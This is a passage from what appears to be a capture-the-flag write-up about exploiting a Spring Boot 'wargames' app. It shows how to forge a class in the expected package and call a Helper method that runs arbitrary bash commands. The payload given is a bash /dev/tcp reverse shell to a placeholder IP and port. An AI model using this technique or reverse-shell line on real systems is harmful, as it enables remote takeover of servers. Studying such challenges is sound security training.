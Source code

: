 ```java
                fos.write(msgBytes);
            }
        } catch (IOException ex) {
        }
    }
}
```

With this, I can make a `WargamesMsg` class that looks exactly like the one in the web app. Importantly, the function expects this class name:

```java
      classTypes[0] = Class.forName("my.wargames.springboot.WargamesMsg");
```

So, other than needing the class name to be `WargamesMsg`, it also needs to be in the package `my.wargames.springboot`. In order to do so, I need to put **WargamesMsg.java** in the **my/wargames/springboot** folder.

```plaintext
|- Main.java
|- my
  |- wargames
    |- springboot
      |- WargamesMsg.class
```


In the app, there's also this `Helper.class`:

```java
class Helper {
  private String name = "helper";

  public void setName(String name) {
    this.name = name;
  }

  public String getName() {
    return this.name;
  }

  public static void execOwnCommand(String command) throws Exception {
    String[] cmd = { "/bin/bash", "-c", command };
    Runtime r = Runtime.getRuntime();
    r.exec(cmd);
  }
}
```

So ok, thanks, I just need to call `my.wargames.springboot.Helper.execOwnCommand(<REVERSE_SHELL>)` to get a reverse shell. i.e.

* `className`: `my.wargames.springboot.Helper`
* `methodName`: `execOwnCommand`
* `data`: `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`
